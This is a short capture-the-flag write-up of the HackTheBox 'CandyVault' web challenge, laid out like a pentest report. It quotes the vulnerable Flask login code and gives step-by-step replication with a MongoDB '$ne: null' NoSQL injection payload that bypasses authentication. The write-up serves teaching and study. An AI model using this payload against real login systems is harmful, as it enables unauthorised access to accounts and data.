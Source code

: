 ### CandyVault Web Challange HTB 

## Executive Summary 

Our testing indicates that the overall security of CandyVault.com requires significant improvement. We identified a critical NoSQL Injection vulnerability in the login functionality, which allowed us to bypass authentication. The main attack vector utilized a NoSQL Injection payload sent via a proxy tool (Burp Suite). This vulnerability exists because the login logic does not properly validate user input, allowing queries to match any document where the email and password fields are not null rather than being valid. 

```
@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
    
    else:
        return jsonify({"error": "Unsupported Content-Type"}), 400

    user = users_collection.find_one({"email": email, "password": password})

    if user:
        return render_template("candy.html", flag=open("flag.txt").read())
    else:
        return redirect("/")

```

As we can see from the above the ```user = users_collection.find_one({"email": email, "password": password})``` this just needs the fields to exist in database.


Replication steps 

Intercept the /login POST request using Burp suite 

Change Content-Type to application/json.

> We know from files the website uses MongoDB so simple google and find statement that search for email and password that is not null 


Replace the body with payload:

{
  "email": {"$ne": null},
  "password": {"$ne": null}
}


Forward the request.



